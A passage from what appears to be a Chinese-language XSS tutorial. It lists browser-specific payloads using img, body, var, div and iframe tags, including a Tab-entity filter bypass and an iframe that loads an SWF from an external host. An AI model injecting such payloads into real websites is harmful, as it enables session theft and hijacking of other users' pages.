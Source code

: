 5. img标签

   有些姿势是因为浏览器的不同而不能成功执行的。

   - 只在chrome下有效：

     ```html
     <img src ?itworksonchrome?\/onerror = alert(1)>  //只在chrome下有效

     <img/src/onerror=alert(1)>  //只在chrome下有效
     ```

   - 其他：

     ```html
     <img src=x onerror=alert(1)> 

     <img src="x:kcf" onerror="alert(1)">
     ```

6. body标签

   通过event事件来调用js

   ```Html
   <body onload=alert(1)> 
   <body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
   ```

7. var标签

   ```html
   <var onmouseover="prompt(1)">M</var>
   ```

8. div标签

   ```html
   <div/onmouseover='alert(1)'>X

   <div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">
   ```

9. iframe标签

   有时候我们可以通过实体编码、换行和Tab字符来bypass。我们还可以通过事先在swf文件中插入我们的xss code，然后通过src属性来调用。不过关于flash，只有在crossdomain.xml文件中，allow-access-from domain="*"允许从外部调用swf时，才可以通过flash来事先xss attack。

   下面的`&Tab;`为tab字符

   ```html
   <iframe  src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe> 
   ```

   ```html
   <iframe SRC="http://0x.lv/xss.swf"></iframe> 
   ```
